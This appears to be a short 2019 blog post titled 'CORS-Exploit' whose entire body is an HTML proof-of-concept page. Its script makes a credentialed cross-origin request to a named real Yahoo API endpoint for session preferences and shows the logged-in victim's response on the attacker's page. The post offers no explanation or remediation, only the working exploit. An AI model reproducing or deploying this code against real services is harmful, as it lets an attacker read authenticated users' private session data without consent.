 +++
title = "CORS-Exploit"
date = "2019-03-10"
author = "m4xx"
description = "PWn.!PWn.!PWn.!"
+++


<!DOCTYPE html>
<html>
<head><title>CORS</title></head>
<body>
<center>
<h2>CORs Exploit</h2>

<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
<button type="button" onclick="cors()">Exploit</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "http://api.view.yahoo.com/api/session/preferences", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>